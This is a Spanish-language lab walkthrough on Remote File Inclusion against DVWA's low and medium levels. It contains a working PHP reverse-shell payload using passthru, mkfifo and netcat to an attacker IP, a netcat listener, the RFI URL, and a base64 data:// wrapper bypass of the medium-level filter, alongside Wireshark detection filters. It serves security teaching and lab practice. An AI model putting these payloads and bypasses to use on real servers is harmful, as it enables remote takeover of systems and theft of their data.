La Inclusión de Archivos Remotos (RFI) es una versión de la Inclusión de Archivos Locales (LFI) que extiende su alcance. En RFI, un atacante logra hacer que la aplicación web, que se está ejecutando en el servidor, establezca una conexión con un servidor externo para cargar e incluir un archivo de este, en lugar de usar un archivo que ya esté en el propio servidor como sucede con LFI.




En cuanto a las dificultades asociadas con el envenenamiento de registros (log poisoning) al explotar LFI:
- La cuenta bajo la cual se ejecuta la aplicación web en el servidor necesita tener los derechos suficientes para leer los archivos de registro (logs) que el atacante desea manipular.
- Es necesario descubrir una forma de insertar código dañino en esos archivos de registro locales, lo cual podría lograrse mediante acciones como enviar ciertas cabeceras HTTP o generar errores intencionadamente.

Si fuera posible incluir archivos alojados en un servidor controlado por el atacante o en otra ubicación bajo su control, estas limitaciones se eliminarían, lo que haría mucho más sencilla la ejecución de código malicioso.

La vulnerabilidad de RFI surge principalmente por dos razones:
- La falta de una limpieza adecuada de las entradas proporcionadas por el usuario, lo que permite la introducción de URLs externas.
- Una configuración insegura o por defecto tanto en el servidor web como en las aplicaciones, que admite este tipo de inclusión de archivos. Un ejemplo claro de esto es tener habilitada la opción allow_url_include en la configuración de PHP, que permite la inclusión de archivos de fuentes externas.

Lenguajes susceptibles a estos ataques: PHP, ASP, JSP, Python...

Con un ataque RFI se puede conseguir:
- Defacement de Sitios Web: El "defacement" se refiere a la alteración visual de un sitio web, donde el contenido original se reemplaza con contenido creado por el atacante. Esto suele hacerse por motivos de vandalismo, para promover una agenda política o social, o simplemente para demostrar la vulnerabilidad del sitio. Con un ataque RFI, un atacante puede incluir un archivo remoto que contenga HTML, JavaScript u otro código que cambie la apariencia del sitio web o muestre un mensaje específico del atacante. Dado que el archivo está siendo incluido y ejecutado por el servidor web como parte de la página web, el contenido del archivo remoto se renderizará en el navegador del usuario, efectivamente cambiando la apariencia del sitio.

- Ejecución Remota de Comandos: Aún más peligroso es la capacidad de ejecutar comandos de forma remota en el servidor web a través de un ataque RFI. Esto puede lograrse si el atacante logra incluir un script PHP (o cualquier otro lenguaje de servidor que se esté ejecutando) desde un servidor remoto que el servidor web víctima ejecutará como suyo. Este script puede contener código que ejecute comandos en el servidor, lo que podría permitir al atacante tomar el control total del servidor web, acceder a bases de datos sensibles, modificar archivos del sistema, instalar malware, crear backdoors para acceso futuro, entre otras acciones maliciosas. La ejecución remota de comandos abre la puerta a una amplia gama de actividades perjudiciales que pueden comprometer la seguridad y la funcionalidad del servidor y de los datos alojados en él.


# RFI en DVWA - Nivel Low
### En la máquina atacante
Para obtner la shell reversa, usaremos netcat tanto en el atacante (kali) como en la víctima (ubuntu):
- En la máquina atacante (Kali), iniciamos Netcat en modo escucha especificando un puerto:
  ```
  nc -lnvp 9000
  ```
  


- Creamos un documento que contendrá el fichero que deberá ejecutar la máquina víctima para lanzar la shell reversa:
  ```
  mkdir /tmp/files
  cd /tmp/files
  nano reverse.txt
  
  <?php
        passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f");
  ?>  
  ```
  La función passthru ejecutará el comando que recibe como argumento. Este comando crea un canal de comunicación bidireccional entre la máquina víctima y la atacante, usando un archivo FIFO en /tmp/f. Primero, elimina /tmp/f si existe y luego crea un FIFO con mkfifo. Utiliza cat para leer este FIFO y pasa la salida a sh -i, creando una shell interactiva que redirige tanto la entrada estándar como la salida estándar y el error estándar a través de Netcat hacia la dirección IP 192.168.1.103 en el puerto 9000. Finalmente, la salida de Netcat se redirige de nuevo al FIFO, completando el circuito para la comunicación bidireccional. Los datos circulan a través de la conexión con la máquina atacante en la ip 192.168.1.103 y el puerto 9000, y la máquina vulnerable por medio del fichero FIFO.

- En el atacante arrancamos un servidor web:
  ```
  python3 -m http.server 80
  ```
  
  


### En la máquina víctima
Utilizamos la URL en la que conseguimos hacer LFI:
```
/DVWA/vulnerabilities/fi/?page=http://192.168.1.103/reverse.txt
```


### En la máquina atacante
Vemos que se ha conseguido finalizar la shell reversa:



## Viendo el ataque con Wireshark




-----------------------------------------------------------
Otro detalle de otra secuencia:




**Filtros wireshark para descubrir RFI:**
```
http || tcp.port == 80 || tcp.port == 443
(http.request or tls.handshake.type eq 1) and !(ssdp)
http.request.method == "POST"
http.request.method == "GET"
```

---------------------------------------------

# RFI en DVWA - Nivel Medio
En el nivel medio vemos por el código que hace una validación de las entradas, impidiendo que se escriba http: ó https:
```
Medium File Inclusion Source
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?>
```

Para poder ejecutar la shell reversa ahora **no funcionará**:
-  Hacer una request "page=http://192.168.1.103/reverse.txt" ya que la convierte en "page=192.168.1.103/reverse.txt", lo que provoca que no funcione el RFI.
- Hacer bypass del tipo: %68%74%74%70%3A%2F%2F --> http://

Para saltar esta restricción necesitaremos usar wrappers de php. Un ejemplo sencillo para ver cómo funciona la técnica es:
```
Código php --> <?php phpinfo(); ?>
Codificación de ese código en Base64 --> PD9waHAgcGhwaW5mbygpOyA/Pg==
Request que muestra la información php del servidor --> data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
Request que muestra la información php del servidor --> data:application/x-httpd-php;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
```

Mi código para realizar varias acciones en el servidor que incluyen eliminar un archivo, crear un FIFO (named pipe), escuchar comandos a través de este pipe, y reenviar la salida a una conexión Netcat abierta, lo que me permite obtener una shell interactiva.:
```
<?php passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f"); ?>
```

El código PHP codificado en Base64 es:
```
PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7ID8+
```

Para usar este código en un ataque de RFI mediante el wrapper data://, insertaremos la cadena codificada en Base64 en la URL de la siguiente manera:
```
?data://text/plain;base64,PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7ID8+
```

Sin embargo, al probarlo en DVWA no funciona, devuelve un error:


Este error de sintaxis suele ocurrir cuando PHP interpreta el código y encuentra un problema que impide su correcta ejecución. En este caso, parece ser un problema con cómo el código codificado en Base64 se decodifica y luego se evalúa como PHP. Específicamente, el mensaje de error sugiere que PHP no esperaba el token de cierre ?> al final de tu script, o podría haber un problema con la interpretación del código PHP una vez decodificado.

Una posible razón para este tipo de error es la inclusión de la etiqueta de cierre de PHP ?> al final del código, la cual en realidad no es necesaria en archivos que contienen únicamente código PHP. En algunos contextos, la presencia de esta etiqueta al final del script puede causar problemas, especialmente si después de la etiqueta se incluyen espacios en blanco o caracteres de nueva línea que PHP intenta ejecutar.

Dado que el mensaje de error indica un problema al final del archivo (es decir, después de decodificar el Base64),vamos a intentar remover la etiqueta de cierre ?> del código PHP antes de codificarlo en Base64. Esto ayudaría a prevenir cualquier problema que pueda surgir debido a contenido no deseado después de la etiqueta de cierre.

Código php - Codificación del Código en base 64 - Request RFI:
```
<?php passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f");
PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7
data://text/plain;base64,PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7
```

Intentamos de nuevo RFI y ya comprobamos que funciona:


